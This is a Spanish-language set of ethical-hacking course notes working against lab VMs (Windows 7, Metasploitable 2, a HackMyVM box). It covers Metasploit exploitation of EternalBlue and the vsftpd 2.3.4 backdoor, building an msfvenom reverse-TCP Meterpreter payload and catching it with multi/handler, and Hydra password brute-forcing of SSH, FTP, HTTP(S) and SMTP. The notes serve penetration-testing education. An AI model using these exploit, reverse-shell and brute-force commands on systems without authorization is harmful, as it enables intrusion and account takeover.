---
## Explotación de Vulnerabilidades y Ataques de Fuerza Bruta
---

En este apartado, Mario nos enseña usar Metasploit para explotar vulnerabilidades y realizar ataques de fuerza bruta.

para esto nos explica que en la máquina kali Linux debemos acceder por la aplicación de Metasploit hacerlo desde el menu de la pantalla principal y no a través de la linea de comandos para que cargue la Base de datos
Despues de esto vamos a explotar la máquina Windows 7 de la que ya hemos hablado anteriormente.



```bash
search eternalblue
```



Este comando busca en Metasploit módulos relacionados con la vulnerabilidad EternalBlue, que afecta a sistemas Windows y permite la ejecución remota de código.

Debemos saber que tambien podemos buscar por CVE.



si queremos usar el exploit 0 usaremos el comando 

```bash	
use 0 
```
despues podemos usar el comando:

```bash
show options
```


Este comando muestra las opciones disponibles para el módulo seleccionado, incluyendo los parámetros que debemos configurar antes de ejecutar el exploit.
Luego, debemos configurar los parámetros necesarios para el exploit. Por ejemplo, podemos establecer la dirección IP del objetivo y el puerto.

Mario nos explica que existe el exploit y dentro del exploit está el payload.

Una vez que el exploit haya entrado en la máquina víctima, podemos ejecutar el payload.

una vez entendio esto, podemos configurar los parámetros necesarios para el exploit. Por ejemplo, podemos establecer la dirección IP del objetivo y el puerto.

```bash	
set RHOSTS 192.168.1.195
```
```bash
set RPORT 445
```

LHOST corresponde con mi máquina atacante, que en este caso es Kali Linux.

si necesitamos configurarlo se lanza el comando:

```bash
set LHOST [Dirección IP de la máquina atacante, en este caso Kali Linux]
```	

para ejecutarlo usamos el comando: 

```bash
exploit
```
O
```bash
run
```
Una vez que el exploit se haya ejecutado correctamente, deberíamos obtener una sesión de meterpreter en la máquina víctima. Esto nos permitirá interactuar con el sistema comprometido y realizar diversas acciones, como ejecutar comandos, transferir archivos o escalar privilegios.



Podemos usar el comando `sysinfo` para obtener información sobre el sistema comprometido, como la versión del sistema operativo, el nombre del host y la arquitectura.

```bash
sysinfo
```
Este comando nos proporciona detalles sobre el sistema operativo, la arquitectura y otros aspectos relevantes de la máquina comprometida.



Podemos usar el comando `mkdir` para crear un directorio en la máquina comprometida. Por ejemplo, para crear un directorio llamado "pwned", podemos ejecutar:

```bash
mkdir pwned
```
Este comando creará un nuevo directorio llamado "pwned" en la ubicación actual de la máquina comprometida.

que no se nos olvide usar el comando pwd para ver en que directorio estamos.

```bash
pwd
```
Este comando muestra la ruta del directorio actual en el que nos encontramos dentro de la máquina comprometida. Es útil para orientarnos y saber dónde estamos trabajando.

---
## Uso Básico de Metasploit – Explotación de vsftpd en Linux
---

Para descargar la siguiente máquina vulnerable, puedes hacerlo directamente desde el siguiente enlace oficial de SourceForge:

[Descargar Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/)

También puedes encontrarla buscando **Metasploitable 2** en tu buscador preferido.  
Esta máquina virtual es ampliamente utilizada en entornos de laboratorio para practicar técnicas de hacking ético, explotación de vulnerabilidades y pruebas de penetración en un entorno controlado y pruebas de penetración en un entorno controlado y seguro.

Una vez que hayas descargado la máquina, importamos la el disco duro dentro de una nueva máquina linux en VirtualBox.

La dejamos iniciada y volvemos a Kali Linux.

para localizar la máquina vulnerable, ejecutamos el siguiente comando:

```bash
netdiscover -i eth0 -r 192.168.1.0/24
```


luego ejecutamos el comando: 

```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.1.198 -oN Escaneo.txt
```

Este comando realiza un escaneo completo de la máquina vulnerable, identificando los puertos abiertos y los servicios que se están ejecutando en ellos.



En la imagen solo vemos un trozo de todo los datos que nos ha reportado el script.

despues de esto queremos explotar el puerto 21 ya que lo hemos visto abierto tras ejecutar el anterior comando.

Para ello, ejecutamos el siguiente comando:

```bash
nmap --script "vuln" -p21 192.168.1.198
```



Despues de esto nos ejecutamos el programa de Metasploit framework como hemos hecho anteriormente.

Os dejo un enlace al apartado donde se da la explicación: 
[Ir al apartado de Explotación de Vulnerabilidades y Ataques de Fuerza Bruta](#explotación-de-vulnerabilidades-y-ataques-de-fuerza-bruta)

despues de abrirlo, ejecutamos el siguiente comando:

```bash
search CVE-2011-2523
```


es el CVE que nos ha dado el comando de NMAP, pero como vemos en la imagen no nos encuentra nada.

Hemos usado tamben el comando 
```bash
search vsFTPd version 2.3.4
```


pero tampoco ha encontrado nada.

Finalmente hemos conseguido encontrarlo usando el comando:
```bash
search vsftpd
```


Esto nos ha demostrado que no siempre se puede encontrar el CVE directamente, y que a veces es necesario buscar por el nombre del servicio o software afectado.

Seguido de esto, usamos el comando:

```bash
use 1
```

seguido del comando:

```bash
show options
```

A continuación, debemos configurar los parámetros necesarios para el exploit. Específicamente, rellenaremos el campo `RHOSTS` con la dirección IP de la máquina vulnerable (en este caso, `192.168.1.198`). Podemos observar que el campo `RPORT` ya está configurado por defecto con el puerto `21`, correspondiente al servicio FTP que deseamos explotar.

Lanzamos el comando `run` y ya estamos dentro de la máquina vulnerable, podemos lanzar varios comandos como:

```bash
whoami
```
Este comando nos muestra el usuario con el que estamos conectados en la máquina comprometida. En este caso, debería devolver `root`, ya que hemos explotado una vulnerabilidad que nos otorga acceso como superusuario.

```bash
shell
```
Este comando nos permite acceder a una shell de comandos en la máquina comprometida. Desde aquí, podemos ejecutar comandos directamente en el sistema operativo de la máquina vulnerable.

```bash
pwd
```

Este comando nos muestra el directorio actual en el que nos encontramos dentro de la máquina comprometida. Es útil para orientarnos y saber dónde estamos trabajando.

---
## Generar nuestros propios Payloads con Msfvenom 
---

Mario comienza explicando que Msfvenom es una herramienta de Metasploit que nos permite crear payloads personalizados para explotar vulnerabilidades en sistemas. Estos payloads son programas maliciosos que se ejecutan en la máquina víctima y permiten al atacante tomar el control del sistema.
Para crear un payload personalizado, utilizamos el siguiente comando:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[Dirección IP de la máquina atacante] LPORT=[Puerto de escucha] -f exe -o pwned.exe
```

El recomienda buscar en google msfvenom linux o windows...

Una vez que hemos creado el payload (archivo `pwned.exe`), debemos transferirlo a la máquina víctima. Para ello, podemos utilizar un servidor HTTP simple en Kali Linux:

```bash
python3 -m http.server 80
```

Este comando inicia un servidor web en el puerto 80 de Kali Linux, lo que nos permite servir archivos a través de HTTP.

esto nos permite descargar el payload en la máquina víctima utilizando un navegador web o herramientas como `curl` o `wget`.

Una vez descargado el archivo, volvemos a la terminal de Kali Linux y ejecutamos Metasploit

Una vez abierto lanzamos el comando

```bash
use /multi/handler
```
Este comando nos permite utilizar el módulo de Metasploit que maneja las conexiones de los payloads que hemos creado. Es esencial para recibir la conexión inversa desde la máquina víctima una vez que se ejecute el payload.
Después, configuramos los parámetros necesarios para el módulo usando `show options`:




Nos podemos fijar en la imagen que el payload options pone shell y nosotros hemos creado anteriormente un meterpreter, añadimos la configuración que falta:



hemos usado los comandos set `LPORT` y `LHOST` para establecer el puerto y la dirección IP de la máquina atacante, una vez hecho esto ejecutamos el comando `run` y con esto ya tenemos la conexión creada.

Vamos a la máquina valorada y ejecutamos el payload que hemos creado anteriormente, en este caso `pwned.exe`.

Una vez ejecutado el payload en la máquina víctima, deberíamos recibir una conexión inversa en Metasploit, lo que nos permitirá interactuar con la máquina comprometida a través de Meterpreter.




---
## Uso de Hydra – Ataques de Fuerza Bruta a Contraseñas (SSH y FTP)
---

En esta sección, Mario nos indica que la nueva máquina vulnerable se puede descargar desde la web oficial de [HackMyVM](https://hackmyvm.eu/).

A continuación, aprenderemos a utilizar **Hydra**, una potente herramienta para realizar ataques de fuerza bruta a servicios como SSH y FTP. Hydra permite probar múltiples combinaciones de usuario y contraseña de manera automatizada, facilitando la identificación de credenciales débiles.

Primero de todo, es averiguar la IP de la máquina vulnerable, para ello usamos el comando:

```bash
netdiscover -i eth0 -r [Red completa 192.168.1.0/24]
```	

una vez identificado la máquina vulnerable, podemos proceder a realizar un escaneo NMAP para saber que puertos tiene abiertos.

Usamos el comando:

```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn [IP de la máquina vulnerable] -oN Escaneo.txt
```
en este caso vemos que tiene abiertos los puertos 21, 22 y 80, que corresponden a los servicios FTP, SSH y HTTP respectivamente.



A continuación, usaremos un ataque hydra por diccionario para intentar acceder al servicio SSH de la máquina vulnerable. Para ello, utilizamos el siguiente comando:

```bash
hydra -l [Usuario] -P [Ruta al diccionario] ssh://[IP de la máquina vulnerable]
```

Encontraremos el archivo `rockyou.txt` en la ruta `/usr/share/wordlists/rockyou.txt.gz`, que es un diccionario muy utilizado para ataques de fuerza bruta.
Para descomprimirlo, usamos el siguiente comando:

```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
```

```bash
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.199
```

si lo queremos hacer por FTP, usamos el siguiente comando:

```bash
hydra -l juan -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.199
```

si por casualidad queremos añadir el puerto solo debemos añadir al final del comando :[Puerto]

por ejemplo:

```bash
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.199:22
```

A continuación, dejamos más ejemplos de como realizar ataques de fuerza bruta a diferentes servicios utilizando Hydra:

En el caso de que queramos hacer un ataque de fuerza bruta a un servicio HTTP, podemos usar el siguiente comando:

```bash
hydra -l [Usuario] -P [Ruta al diccionario] http-get://[IP de la máquina vulnerable]/[Ruta del formulario]
```
Por ejemplo, si queremos atacar un formulario de inicio de sesión en una página web, podemos usar el siguiente comando:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://192.168.1.199
```

En este caso, estamos intentando acceder al servicio HTTP de la máquina vulnerable utilizando el usuario `admin` y el diccionario `rockyou.txt`.
Si queremos realizar un ataque de fuerza bruta a un servicio HTTPS, podemos usar el siguiente comando:

```bash
hydra -l [Usuario] -P [Ruta al diccionario] https-get://[IP de la máquina vulnerable]/[Ruta del formulario]
```
Por ejemplo, si queremos atacar un formulario de inicio de sesión en una página web segura, podemos usar el siguiente comando:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt https-get://192.168.1.199
```
En este caso, estamos intentando acceder al servicio HTTPS de la máquina vulnerable utilizando el usuario `admin` y el diccionario `rockyou.txt`.

Si queremos realizar un ataque de fuerza bruta a un servicio SMTP, podemos usar el siguiente comando:

```bash
hydra -l [Usuario] -P [Ruta al diccionario] smtp://[IP de la máquina vulnerable]
```
Por ejemplo, si queremos atacar un servidor SMTP, podemos usar el siguiente comando:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt smtp://192.168.1.199
```
